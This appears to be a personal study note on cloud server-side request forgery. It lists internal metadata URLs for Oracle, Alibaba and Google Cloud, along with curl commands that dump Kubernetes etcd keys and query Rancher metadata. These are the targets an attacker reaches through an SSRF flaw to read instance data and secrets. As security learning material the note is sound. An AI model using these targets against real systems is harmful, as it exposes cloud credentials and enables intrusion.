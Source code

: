 Daily Notes : Day 56
Cloud SSRF - Part 1

Oracle :
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data
http://192.0.0.192/latest/attributes/

Alibaba :

http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id

Kubernetes ETCD : 
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true 

Rancher :
curl http://rancher-metadata/<version>/<path>

Google Cloud :
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
